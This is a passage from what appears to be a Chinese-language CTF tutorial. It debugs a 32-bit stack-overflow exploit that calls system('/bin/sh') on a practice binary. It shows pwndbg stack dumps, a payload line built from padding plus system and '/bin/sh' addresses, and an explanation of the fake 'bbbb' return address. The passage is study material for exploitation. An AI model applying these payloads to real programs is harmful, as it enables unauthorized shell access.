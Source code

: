 ```python
02:0008│      0xffffd048 ◂— 0xa /* '\n' */
03:000c│      0xffffd04c —▸ 0xf7e18647 (__libc_start_main+247) ◂— add    esp, 0x10
04:0010│      0xffffd050 —▸ 0xf7fb3000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
... ↓
06:0018│      0xffffd058 ◂— 0x0
07:001c│      0xffffd05c —▸ 0xf7e18647 (__libc_start_main+247) ◂— add    esp, 0x10
-----------------------------------------------------------------------------------
error_payload=(0x88+0x4)*'a'+p32(system_addr)+'bbbb'+p32(bin_sh_addr)
00:0000│ esp  0xffffd03c —▸ 0x8048461 (vulnerable_function+22) ◂— add    esp, 0x10
01:0004│      0xffffd040 ◂— 0x62626262 ('bbbb')
02:0008│      0xffffd044 —▸ 0x804a024 (hint) ◂— '/bin/sh'
03:000c│      0xffffd048 ◂— 0xa /* '\n' */
04:0010│      0xffffd04c —▸ 0xf7e18647 (__libc_start_main+247) ◂— add    esp, 0x10
05:0014│      0xffffd050 —▸ 0xf7fb3000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
... ↓
07:001c│      0xffffd058 ◂— 0x0
```

现在来解释一下payload1中为什么要加“bbbb”作为程序的虚假返回地址：

> 复习一下call的用法：
>
> 汇编语言中的call指令相当于：push call指令的下一条指令，jmp call指令单步步入的地址。
>

我们可以将payload和payload1联系起来这样理解：

当payload单步步入call system的内部之后，系统会自动将call system的下一条指令也就是“add    esp, 0x10”push到栈中，然后jmp到了system@plt。payload1是直接跳转到了system@plt处，对比payload相当于少了一个push，因此为了保证程序不会发生异常，我们需要在payload1中添加一个“bbbb”作为程序的虚假返回地址来保证栈的平衡。

> 这里无需考虑栈的地址不相同，只需考虑栈的结构相同即可
>

```python
payload
0xffffd03c —▸ 0x8048461 (vulnerable_function+22) ◂— add    esp, 0x10
0xffffd040 —▸ 0x804a024 (hint) ◂— '/bin/sh'
0xffffd044 —▸ 0xffffd00a ◂— 0x61616161 ('aaaa')
payload1:
0xffffd040 ◂— 0x62626262 ('bbbb') #添加“bbbb”以当作返回地址来确保栈的平衡
0xffffd044 —▸ 0x804a024 (hint) ◂— '/bin/sh'
0xffffd048 ◂— 0xa /* '\n' */
```

到这里，关于三个payload的疑惑就说明完了。但是我想知道error_payload究竟在哪里出现了崩溃，以及调用system时系统是如何调用其参数的。

经过一番调试，发现system最终调用了execve函数，对execve下断点，继续调试三个payload：

```python
pwndbg> b execve
Breakpoint 1 at 0xf7eb08c0: file ../sysdeps/unix/syscall-template.S, line 84.
pwndbg> 
```

现在三个payload都来到了：
